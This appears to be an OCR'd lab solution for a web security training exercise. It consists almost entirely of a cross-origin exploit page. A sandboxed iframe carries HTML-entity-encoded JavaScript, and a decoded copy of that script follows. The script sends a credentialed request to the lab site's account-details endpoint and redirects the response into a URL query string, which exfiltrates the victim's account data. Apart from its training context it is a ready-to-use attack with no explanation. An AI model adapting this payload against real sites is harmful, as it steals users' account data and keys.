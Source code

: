 ```html
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="Viewport" content="width=device-width", initial-scale="1.0">
        <title>Document</title>
    </head>
<body>
    <h1>Hello</h1>
    <iframe
sandbox="allow-forms allow-scripts allow-top-navigation"
srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x63;&#x6f;&#x6e;&#x73;&#x74;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x31;&#x66;&#x30;&#x30;&#x66;&#x37;&#x30;&#x33;&#x30;&#x61;&#x32;&#x32;&#x62;&#x65;&#x38;&#x35;&#x62;&#x66;&#x61;&#x66;&#x38;&#x39;&#x30;&#x30;&#x65;&#x62;&#x30;&#x30;&#x66;&#x33;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x20;&#x74;&#x72;&#x75;&#x65;&#x29;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x3d;&#x3e;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x3d;&#x20;&#x22;&#x2f;&#x61;&#x62;&#x63;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x3d;&#x74;&#x72;&#x75;&#x65;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x0a;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
></iframe>
</body>
</html>
```

The HTML encoding section is as follows:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://0a1f00f7030a22be85bfaf8900eb00f3.web-security-academy.net/accountDetails", true)

    request.onload = ()=>{
        window.location.href= "/abc?key=" + request.responseText
    }

    request.withCredentials=true
    request.send()
</script>
```
